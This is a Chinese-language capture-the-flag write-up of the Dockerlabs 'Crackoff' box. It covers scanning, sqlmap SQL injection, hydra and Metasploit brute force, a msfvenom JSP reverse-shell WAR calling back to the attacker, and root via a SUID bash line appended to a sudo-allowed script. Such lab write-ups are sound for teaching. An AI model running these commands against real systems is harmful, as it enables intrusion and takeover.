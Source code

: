 ```yaml
---
title: "Dockerlabs-Crackoff"
date: 2025-03-01
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/crackoff  
❯ nmap 172.17.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 21:28 CST
Nmap scan report for sitio.dl (172.17.0.2)
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
|_  256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.10 ms sitio.dl (172.17.0.2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
```

## Gobuster

```
[root@kali] /home/kali/crackoff  
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2974]
/login.php            (Status: 200) [Size: 3968]
/welcome.php          (Status: 200) [Size: 2800]
/db.php               (Status: 302) [Size: 75] [--> error.php]
/error.php            (Status: 200) [Size: 2705]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

进入**login.php**，发现在**username**字段中存在**SQL**注入漏洞，单引号闭合

![](./images/image-246.png)

将**Request**复制到一个文件中

```
[root@kali] /home/kali/crackoff  
❯ sqlmap -r burp.txt -p username --dbs
```

![](./images/image-247.png)

![](./images/image-249.png)

```
[root@kali] /home/kali/crackoff  
❯ sqlmap -r burp.txt -p username -D crackofftrue_db -T users --dump
```

由于是时间盲注，得多等一会

![](./images/image-250.png)

用**hydra**爆破吧，一个一个试有点费时间

![](./images/image-251.png)

```
rosa:ultramegaverypasswordhack
```

## User

在**/var/www/alice\_note**中得到一串字符

![](./images/image-252.png)

并且内部开有**8080**端口

![](./images/image.png)

**SSH**端口转发

```
[root@kali] ~kali/Desktop  
❯ ssh rosa@172.17.0.2 -L 8080:127.0.0.1:8080
```

然后使用**MSF**模块进行登录爆破

![](./images/image-3.png)

得到正确的登录密码

```
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

接下来上传**war**包进行**Getshell**

这里使用的是**msfvenom**生成的**webshell**

```
[root@kali] /home/kali/crackoff  
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPOST=4444 -f war -o shell.war                                                                 ⏎
Payload size: 1106 bytes
Final size of war file: 1106 bytes
Saved as: shell.war
```

部署后访问

![](./images/image-4.png)

成功得到反弹**shell**

![](./images/image-5.png)

进入**/opt/tomcat**得到**mario**的密码

```
mario:marioeseljefe
```

登录后拿到**user.txt**

![](./images/image-6.png)

## Root

查看**tomcat**的特殊命令

```
sudo -l
Matching Defaults entries for tomcat on 157676472df8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on 157676472df8:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

直接写入提权部分

```
echo "chmod u+s /bin/bash" >> /opt/tomcat/bin/catalina.sh

sudo  /opt/tomcat/bin/catalina.sh start
```

![](./images/image-7.png)

## Summary

`User`：**SQL时间盲注**得到登录账户列表，用**hydra**进行快速爆破。内部存在**tomcat**服务，同样进行爆破尝试，上传木马反弹**shell**。可以参考下面这个链接，我尝试使用**/usr/share/webshells/jsp/cmdjsp.jsp**进行转化为**war**文件，但是无法命令执行？？？无奈使用**msfveom**成功反弹。

- [【Vulfocus靶场-初级】Tomcat后台弱口令+War包文件上传Getshell漏洞复现\_tomcat上传war包-CSDN博客](https://blog.csdn.net/weixin_43847838/article/details/126545876)

`Root`：直接写入**/opt/tomcat/bin/catalina.sh**，以**root**的身份执行即可。

感觉这个机器奇奇怪怪的。。
